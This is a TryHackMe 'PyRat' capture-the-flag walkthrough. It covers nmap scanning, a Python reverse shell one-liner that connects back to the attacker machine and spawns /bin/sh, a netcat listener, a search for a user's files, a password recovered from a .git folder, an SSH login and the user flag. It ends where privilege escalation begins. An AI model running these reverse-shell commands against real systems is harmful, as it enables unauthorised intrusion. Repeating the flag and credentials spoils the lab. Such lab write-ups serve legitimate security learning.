








# Try Hack Me : PyRat Walkthrough

# Enumeration

Let's start off by doing a nmap scan. Once we get the open ports, we can do a more deep scan only on the open ports.

```bash 
# Commands used
nmap -p- 10.10.244.43
nmap -A -p 22,8000 10.10.244.43
```



We can see there is a `http-alt` service running, this is used for having alternate network location to access the same resources.

- On navigating to `http://10.10.244.43:8000/` via the broswer, we get a message - *Try a more basic connection!*

Let's try NetCat `nc 10.10.244.43 8000`, we get a connection



- From nmap we know that it is a python server, so we have to use python for further communication.

# Exploitation

- Now as the server is using python, let's setup a reverse shell. For this we have to find the python version that is being used

- Now let us start a NetCat listener on our attacking machine `nc -lvnp 6969` and then run the below reverse shell on the server.
```python
import socket, subprocess, os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(('10.10.64.140',6969)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call(['/bin/sh','-i'])
```

- Now on exploring, we find there is another user `think`. So let us see what files this user has access to `find / -type f -perm -u=rw -user think -ls 2>/dev/null`

- We find a `.git` folder in the `/opt` directory. Loooking into this we find the credentials for user `think`
*password - _TH1NKINGPirate$_*


# Foothold

We can now login as user `think` via ssh `ssh think@10.10.244.43`


***1. What is the user flag?** 
>996bdb1f619a68361417cabca5454705

# Privilege Escalation

Now that we are logged in as user `think` let's check the `/opt/dev/.git` directory.




